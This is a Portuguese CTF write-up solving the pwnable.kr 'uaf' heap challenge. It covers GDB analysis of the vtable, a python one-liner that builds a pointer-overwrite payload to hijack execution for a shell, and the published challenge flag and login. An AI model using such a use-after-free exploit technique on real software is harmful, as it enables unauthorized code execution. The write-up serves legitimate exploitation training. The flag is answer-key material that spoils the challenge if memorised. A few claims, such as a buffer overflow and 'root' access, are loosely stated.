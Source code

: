 # DuckWare Team - Use After Free (pwnable.kr)
###### Solved by @João Pedro Piceli and @xpics:) 

> Este CTF aborda exploração de vulnerabilidades em heap, especificamente **Use After Free (UAF)**.

---

## 🎯 Desafio: Explorando UAF para obter shell  

### 🔹 Introdução  
O desafio envolve um programa que gerencia objetos dinamicamente e permite liberar e reutilizar a memória. Nosso objetivo é explorar um **Use After Free** para redirecionar a execução do código e ganhar um shell.

### 🔹 Acesso ao Desafio  
```sh
ssh uaf@pwnable.kr -p2222  # (Senha: guest)
```

---

## 📂 Analisando os Arquivos  

Ao conectar via SSH, temos acesso a três arquivos:

![tela-inicial.png](https://i.postimg.cc/HWQtqhDP/tela-inicial.png)

- **flag** → Arquivo protegido sem permissão de acesso.
- **uaf** → Executável do desafio.
- **uaf.cpp** → Código-fonte em C++.

Ao analisar o arquivo `uaf.cpp`, encontramos a seguinte função suspeita que pode conceder permissão de administrador:

![funcao-que-da-acesso-de-adm.png](https://i.postimg.cc/Dy08rSgd/funcao-que-da-acesso-de-adm.png)

Também identificamos que o programa é vulnerável a um ataque de **Buffer Overflow**.

---

## 🛠 Análise da Memória e Identificação do Payload

### 🔹 Encontrando a Função `main`
Executamos o comando para obter a localização da `main` na memória:
```sh
objdump -d uaf | grep '<main>'
```

Resultado:

![main.png](https://i.postimg.cc/85yTcbq8/main.png)

### 🔹 Depuração com GDB
Iniciamos o **GDB** para depurar o executável:
```sh
gdb ./uaf
```

Definimos um **breakpoint** na função `main`:
```sh
(gdb) break main
```

![primeiro-break-point.png](https://i.postimg.cc/k5Q4JKJ9/primeiro-break-point.png)

Ativamos a visualização em **Assembly**:
```sh
(gdb) set disassembly-flavor intel
(gdb) layout asm
```

Isso nos permite visualizar o código em Assembly e os endereços de memória:

![Acessar-o-assembly.png](https://i.postimg.cc/qqy0wdNr/Acessar-o-assembly.png)

Localizamos o trecho crítico de memória:

![memoria-utilizada.png](https://i.postimg.cc/QNkyQttt/memoria-utilizada.png)

Aprofundando mais, encontramos a parte que executa `cmp; je; je; m->introduce()` e a função **VFT (Virtual Function Table)**.

![imagem-2025-03-07-124529211.png](https://i.postimg.cc/jqFJk6Ck/imagem-2025-03-07-124529211.png)

Definimos um segundo **breakpoint** para capturar o VFT:

![marcando-segundo-break-point.png](https://i.postimg.cc/Vkcv3Kw4/marcando-segundo-break-point.png)

Executamos o programa e obtemos o VFT:

![memoria-para-criar-o-payload.png](https://i.postimg.cc/t7GRG4K7/memoria-para-criar-o-payload.png)

---

## 🚀 Criando e Executando o Payload

Agora criamos nosso **payload**, lembrando de inverter a ordem dos bytes:
```sh
python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00' + 'A'*16" > /tmp/heap_payload
```

![criando-o-arquivo-do-payload.png](https://i.postimg.cc/SxrCSnmB/criando-o-arquivo-do-payload.png)

Executamos o payload:
```sh
./uaf < /tmp/heap_payload
```

![conseguindo-acesso.png](https://i.postimg.cc/J0ZH9nTd/conseguindo-acesso.png)

Executando os comandos na ordem `3 → 2 → 2 → 1`, conseguimos **acesso root** e lemos a flag!

---

## 🏆 Flag Obtida!

![pegando-a-flag.png](https://i.postimg.cc/vmK1T9kN/pegando-a-flag.png)

```sh
flag: yay_flag_aft3r_pwning
